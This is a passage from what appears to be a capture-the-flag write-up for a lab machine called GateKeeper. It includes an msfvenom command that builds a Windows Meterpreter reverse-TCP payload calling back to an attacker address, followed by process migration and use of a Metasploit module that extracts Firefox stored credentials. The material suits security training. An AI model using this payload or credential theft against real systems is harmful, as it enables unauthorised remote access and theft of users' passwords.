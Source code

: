 ![](assets/GateKeeper_assets/Pasted%20image%2020231203145256.png)
### Switching to Meterpreter shell

- so we generate a new payload and rerun the script

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.80.123 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```

![](assets/GateKeeper_assets/Pasted%20image%2020231204052311.png)

- we then migrate to an x64 process

![](assets/GateKeeper_assets/Pasted%20image%2020231204052329.png)
- looking through the system we noticed that firefox was installed so lets see if we have stored credentials
- so we run the firefox_creds moduce in Metasploit
